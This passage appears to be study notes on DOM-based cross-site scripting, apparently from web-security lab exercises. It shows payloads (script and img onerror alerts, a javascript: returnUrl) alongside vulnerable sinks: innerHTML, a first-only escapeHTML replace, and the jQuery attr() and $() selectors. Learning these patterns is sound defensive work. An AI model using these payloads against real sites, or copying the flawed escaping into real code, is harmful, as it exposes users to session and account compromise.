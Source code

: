 
But **storeID** is not present in the URL, so we manually add it!

Exploit :-
```Javascript
product?productId=1&storeId="><script>alert(1)</script>
```


3) **XSS in innerHTML Sink**

The `innerHTML` sink doesn't accept `script` elements on any modern browser, nor will `svg onload` events fire. This means you will need to use alternative elements like `img` or `iframe`.

Example :-
```JavaScript
element.innerHTML='... <img src=1 onerror=alert(document.domain)> ...'
```

If the code **escapes Angular Brackets** using replace function :-
```js
function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```
It *only replaces the first occurences*!

Exploit :-
```js
<><img src=1 onerror="alert(1)">
```




### Sources and sinks in third-party dependencies

#### DOM XSS in jQuery
 1) jQuery's `attr()` function can change the attributes of DOM elements. If data is read from a user-controlled source like the URL, then passed to the `attr()` function, then it may be possible to manipulate the value sent to cause XSS. For example, here we have some JavaScript that changes an anchor element's `href` attribute using data from the URL :-
```javascript
$(function() { $('#backLink').attr("href",(new URLSearchParams(window.location.search)).get('returnUrl')); });
```

Exploit :-
```url
?returnUrl=javascript:alert(document.domain)
```


2)  jQuery's `$()` selector function  can be used to inject malicious objects into the DOM.
DOM XSS vulnerability was caused by websites using this selector in conjunction with the `location.hash` source for animations or auto-scrolling to a particular element on the page. This behavior was often implemented using a vulnerable `hashchange` event handler, similar to the following:
```JS
$(window).on('hashchange', function() { var element = $(location.hash); element[0].scrollIntoView(); });
```
